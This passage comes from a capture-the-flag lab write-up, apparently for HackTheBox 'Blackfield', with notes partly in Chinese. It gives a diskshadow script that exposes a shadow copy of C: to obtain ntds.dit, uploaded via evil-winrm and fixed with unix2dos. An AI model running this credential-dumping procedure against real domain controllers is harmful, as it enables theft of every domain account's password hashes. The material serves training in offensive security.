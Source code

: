 

save the command to file and diskshadow to got ntds.dit.

```bash
set verbose on
set metadata C:\Windows\Temp\meta.cab
set context clientaccessible
set context persistent
begin backup
add volume C: alias cdrive
create
expose %cdrive% F:
end backup
exit
```



upload and run diskshadow, got error 

```bash
# evil-winrm, upload with the absolute path.
upload /home/kali/lab/htb/blackfield/credsdump/diskshadow.txt c:\temp\disk.txt

diskshadow -s disk.txt
```

这里提示命令错误，查看scripts `persistent`  最后一个字符 t 丢失。

参考 walkthrough， unix dos 字符问题。

![image-20221211180250214](./images/image-20221211180250214.png)



unix2dos 转换, 上传后重新 shadow, work.

```bash
 unix2dos diskshadow.txt
```
